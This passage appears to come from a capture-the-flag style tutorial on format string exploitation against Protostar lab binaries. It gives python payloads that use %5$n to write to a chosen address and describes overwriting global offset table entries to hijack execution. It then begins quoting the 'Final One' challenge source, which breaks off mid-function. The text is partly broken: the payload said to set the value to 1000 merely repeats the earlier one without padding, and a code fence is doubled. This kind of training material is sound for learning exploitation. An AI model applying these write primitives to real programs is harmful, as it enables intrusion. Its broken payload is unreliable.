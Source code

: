 This means that using the numbered argument syntax, we can write to an address that we pass in. We can see that the `AAAA`'s were the 5th argument and so we'll replace them with the intended address to write to (in this case it is the address of the `zero` variable which is `0x08049660`. Then use `%5$n` to write to that address.

```bash
 python -c "print '\x60\x96\x04\x08' + '%5\$n'" | ./format-str-vuln 
 ```

We can see that we've successfully written `4` to the `zero` variable.  Which is the number of character that we've written thus far (the size of the address for `zero`).

A trick to write an arbitrary value is to use the padding function that `printf()` also comes with, e.g. `%1000x` will pad 1000 characters.


Thus if we use the following input:
```bash
 python -c "print '\x60\x96\x04\x08' + '%5\$n'" | ./format-str-vuln 
 ```
 We can see that we've set `zero` to 1000. 

Finally, we can use this arbitrary write to overwrite the entry in the global offset table to redirect code execution.

# Challenge
Let's take a look at the [Final One](https://exploit.education/protostar/final-one/) challenge.
```c
```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

```